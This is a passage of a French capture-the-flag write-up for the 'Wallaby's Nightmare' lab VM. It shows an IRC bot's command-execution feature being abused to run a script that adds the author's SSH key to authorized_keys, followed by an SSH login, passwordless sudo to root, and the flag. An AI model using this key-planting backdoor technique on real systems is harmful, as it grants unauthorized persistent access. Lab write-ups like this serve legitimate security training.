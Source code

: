 Malheureusement les commandes doivent se limiter à un seul mot :

```
14:35 <waldo> .run uname -a
14:35 <wallabysbot> FileNotFoundError: [Errno 2] No such file or directory: 'uname -a' (file "/usr/lib/python3.5/subprocess.py", line 1551, in _execute_child)
```

J'ai donc placé ce script dans `/tmp` :

```bash
#!/bin/bash
mkdir -p /home/wallaby/.ssh/
echo ssh-rsa AAAAB3N--- snip ma clé publique ssh ---flmWnV7Ez8/h >> /home/wallaby/.ssh/authorized_keys
```

Et je l'ai fait exécuter par le bot pour qu'il m'ajoute aux personnes autorisées pour le compte. Ce dernier est administrateur donc passer `root` ne pose aucun problème :

```console
$ ssh -i ~/.ssh/key_no_pass  wallaby@192.168.56.151
Welcome to Ubuntu 16.04.1 LTS (GNU/Linux 4.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 30 10:23:27 2016 from 192.168.56.153
wallaby@ubuntu:~$ id
uid=1001(wallaby) gid=1001(wallaby) groups=1001(wallaby),4(adm)
wallaby@ubuntu:~$ sudo -l
Matching Defaults entries for wallaby on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wallaby may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
wallaby@ubuntu:~$ sudo su
root@ubuntu:/home/wallaby# cd /root
root@ubuntu:~# ls
backups  check_level.sh  flag.txt
root@ubuntu:~# cat flag.txt
###CONGRATULATIONS###

You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

Thanks guys!
-Waldo
```

